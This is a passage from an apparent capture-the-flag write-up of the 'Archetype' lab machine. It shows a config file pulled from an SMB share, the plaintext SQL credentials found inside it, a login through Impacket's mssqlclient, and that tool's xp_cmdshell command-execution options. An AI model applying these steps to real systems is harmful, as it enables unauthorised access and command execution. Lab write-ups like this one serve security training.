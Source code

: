Now we see that `IPC$` is empty and `backups` contains `prod.dtsConfig` so let's grab that down and take a peak.

```
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (9.9 KiloBytes/sec) (average 9.9 KiloBytes/sec)
smb: \> exit
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>          
```

Looks like we have some SQL credentials: `User ID=ARCHETYPE\sql_svc` and `Password=M3g4c0rp123` -- jackpot :)  Let's try and connect to the database...

## Getting a Foothold

Trying to connec to the database with those credentials initially yields a little trouble:

```
└─$ mssqlclient.py "ARCHETYPE/sql_svc@10.10.10.27"                                                                                                                                                                                     127 ⨯
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'sql_svc'.
```

But there's an extra flag for mssqlclient.py that we should use: `-windows-auth` -- trying that:

```
└─$ mssqlclient.py "ARCHETYPE/sql_svc@10.10.10.27" -windows-auth
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
```